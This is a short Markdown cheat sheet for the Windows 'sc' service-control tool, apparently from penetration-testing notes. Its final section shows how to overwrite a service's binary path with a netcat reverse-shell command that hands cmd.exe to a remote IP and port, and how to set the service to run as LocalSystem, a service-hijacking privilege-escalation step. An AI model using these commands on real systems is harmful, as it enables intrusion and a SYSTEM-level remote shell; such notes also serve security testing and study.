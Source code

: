 # sc

> service control

## query all services

    sc query

## get service config

    sc qc <service>

## overwrite service config value

note: the space after the equal sign is mandatory

    sc config <service> binpath= "C:\nc.exe -nv <ip> <port> -e C:\WINDOWS\System32\cmd.exe"
    sc config <service> obj= ".\LocalSystem" password= ""
